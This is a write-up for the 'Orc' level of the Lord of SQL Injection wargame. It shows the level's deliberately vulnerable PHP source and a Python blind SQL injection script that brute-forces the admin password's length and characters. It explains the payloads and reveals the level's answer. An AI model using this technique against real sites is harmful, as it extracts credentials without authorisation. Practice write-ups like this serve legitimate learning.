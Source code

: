 # Lord Of SQL Injection

### Orc

[Orc chall link](https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php)

Source code of this chall:

```php    
    	<?php 
  	  include "./config.php"; 
	  login_chk(); 
	  dbconnect(); 
	  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
	  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if($result['id']) echo "<h2>Hello admin</h2>"; 
	  $_GET[pw] = addslashes($_GET[pw]); 
	  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
	  highlight_file(__FILE__); 
	?>
	
```php

In this chall, your object is to find the password because i already used many commnand like `' or 1=1 -- ;` and get no response :( . After many times trying, i try Blind SQL Injection and get the thing i want. You will bruteforce to find every character of the password.


You can devide this chall into 2 phase:
1. Find the length of the password
2. Find every character of the password

This is my code to solve this problem:
```python
    	import requests
	import string

	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
	my_cookies = {"PHPSESSID":"your PHPSESSID here"}
	passwd = ""
	passwdlen = 0
	for i in range(0,10):
	    print("Checking if the password length is " + str(i))
	    payload = "' or id='admin' and length(pw)=" + str(i) + " -- ;"
	    payload = requests.utils.quote(payload)
	    final_url = url + payload
	    res = requests.get(final_url,cookies=my_cookies)
	    if "Hello admin" in res.text:
		print("FOUND! Password length is " + str(i))
		print("-------------------------------------------------")
		passwdlen = i
		break
	    else:
		print("FAIL!")
		print("-------------------------------------------------")



	for i in range(1,passwdlen+1):
	    for c in string.digits + string.ascii_lowercase:
		payload = "'or id='admin' and substr(pw,"+str(i)+",1)='" +c+ "' -- ;"
		payload = requests.utils.quote(payload)
		final_url = url + payload
		res = requests.get(final_url,cookies=my_cookies)
		if "Hello admin" in res.text:
		    passwd+=c
		    print(final_url)
		    print("Found a new char of password: " + passwd)
		    break
	print("The password is: " + passwd)
 ```

The two library which i used in this code is requests library and string library. The requests library is used to send data to the server, and the string library to get all the digit and lowercase letter as string for the second loop. Maybe you don't understand why i didn't use the uppercase letter or why the range of the first loop is 0->10, that's a secret :) You will know that secret after you solved this chall :D

In the first for loop, i find the password length. After that, i use the password's length i had found before as an end of range for the second for loop. And also, in this chall you must use you cookies to pass into the header of the request you make. If you didn't do that, this code will fall because the server will redirect you to the login page :<

I will explain two payload i used in this chall:

1. The first loop payload

```python
    	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and length(pw)=" + str(i) + " -- ;"
```

I find the password by using a single quote to end the query which already open in the query of the program. Then i find the length of the `pw` parameter by loop through a range from 0 to 10. If the length of the `pw` is correct, the line "Hello admin" will appear. You can rely on that line to bruteforce the length of the password. And please remember that after ` --` is a space and a ";" symbol. Because in MySQL, after a comment you must leave a space, but if you leave only the space with no character after that space, the space will be cut off automatically so i choose a ";" symbol, you can choose whatever you want, just make sure the space after the comment exist.

2. The second loop payload

```python
	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and substr(pw,"+ str(i) +",1)='" +c+ "' -- ;"
```

In the second loop, i find every character of the password using bruteforce again. The substr() function will extract a substring from a string, in this case is the passwd. You can read about the substr() function on the internet to know more about how it work. 

And after two loop, you can find the password is 095a9852
